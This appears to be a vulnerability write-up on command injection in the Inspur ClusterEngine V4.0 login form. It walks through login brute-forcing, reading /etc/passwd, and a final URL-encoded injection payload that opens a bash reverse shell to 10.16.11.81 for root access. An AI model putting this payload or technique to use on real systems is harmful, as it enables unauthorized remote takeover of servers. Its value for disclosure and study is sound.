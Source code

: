 # Inspur ClusterEngineV4.0 Remote Code Execute

# 0x01 Description

Today, i found a`Inspur Server Cluster Management System` in our intranet, which login page looks like that.

![1573267238057](img/1573267238057.png)

It doesn't have verification code, so i decide to crack a login account.

![1573267410033](img/1573267410033.png)



when burpsuite crack down, i noticed if post data has `;'`, the response packet is abnormal.

![1573267472820](img/1573267472820.png)

At now, I realize that there may be a remote code execution, and I put this packet in repeater to repeat it, I found if there is a `'` in post data, the system will throw an exception.

![1573267667895](img/1573267667895.png)

![1573267621779](img/1573267621779.png)

When I further tested, I found that either the username parameter or the password parameter contains `'`, an exception will be thrown.

![1573267874260](img/1573267874260.png)

So I decided to try send `' '`  to see the response packet.

![1573267904173](img/1573267904173.png)

I noticed `grep` command error,  may be server code like 
```shell
var1 = `grep xxxx`
var2 = $(python -c "from crypt import crypt;print crypt('$passwd','$1$$var1')")
```

So i try to send `-V` and `--help` to see response packet,  the response packet confirmed my guess.

![1573268170355](img/1573268170355.png)

![1573268245311](img/1573268245311.png)

Try to read `/etc/passwd`

![1573268332873](img/1573268332873.png)

Try to list the directories

![1573268361127](img/1573268361127.png)



# 0x02 Pwned

Now, I confirmed there is a remote code execution that a found, after fuzz, I got the following payload

`whoami`

![1573268530852](img/1573268530852.png)

`uname`

![1573268555327](img/1573268555327.png)

`revershell`

```
op=login&username=1 2\',\'1\'\);  `bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.16.11.81%2F80%200%3E%261`
```

When i send payload, i get a `root shell` in my `kali linux`server

![1573268596272](img/1573268596272.png)

![1573267093372](img/1573267093372.png)